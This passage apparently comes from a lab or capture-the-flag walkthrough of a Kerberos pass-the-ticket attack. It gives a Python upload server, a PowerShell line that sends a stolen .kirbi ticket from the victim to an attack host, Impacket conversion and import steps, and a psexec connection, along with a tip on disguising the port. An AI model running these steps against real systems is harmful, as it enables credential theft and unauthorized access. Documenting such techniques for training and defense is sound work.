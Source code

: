              class SimpleHTTPUploadHandler(SimpleHTTPRequestHandler):
                 def do_POST(self):
                     length = int(self.headers['Content-Length'])
                     field_data = self.rfile.read(length)
                     #If you prefer change the file to be whatever you want
                     with open('uploaded_file', 'wb') as f:
                         f.write(field_data)
                     self.send_response(200)
                     self.end_headers()
                     self.wfile.write(b'File uploaded successfully')

            # You can set the port to be 443 etc so it looks more legitimate.
             def run(server_class=HTTPServer, handler_class=SimpleHTTPUploadHandler, port=9000):
                 server_address = ('', port)
                 httpd = server_class(server_address, handler_class)
                 print(f"Starting httpd server on port {port}")
                 httpd.serve_forever()

             if __name__ == "__main__":
                 run()
            ```
    -   ~~NOTE~~: Will output file as `uploaded_file`

2.  **Send the ticket from victim using** `powershell`:
    ```powershell
     filePath = "C:\Temp\ticket.kirbi"; $url = "http://10.10.14.31:9000"; $fileBytes = [System.IO.File]::ReadAllBytes($filePath); $webClient = New-Object System.Net.WebClient; $webClient.UploadData($url, $fileBytes)
    ```

    -   {{< figure src="/ox-hugo/2024-10-08-204509_.png" >}}
    -   **Ticket received on our attack host**:
        -   {{< figure src="/ox-hugo/2024-10-08-204431_.png" >}}
        -   +Note+: The file will be called `uploaded_file` you will have to change it back to `<file>.kirbi`

3.  **Convert with** `impacket-ticketconverter`:
    -   `impacket-ticketConverter ticket.kirbi admin.ccache`
    -   {{< figure src="/ox-hugo/2024-10-08-204926_.png" >}}

4.  **Import into session my current session**:
    -   `export KRB5CCNAME=./admin.ccache`
    -   {{< figure src="/ox-hugo/2024-10-08-205009_.png" >}}

5.  **Check ticket is loaded into memory**:
    -   `klist`
    -   {{< figure src="/ox-hugo/2024-10-08-205033_.png" >}}

6.  **Fire up** `impacket-psexec` **and connect**:
    -   We have persistence.
        -   {{< figure src="/ox-hugo/2024-10-08-205150_.png" >}}

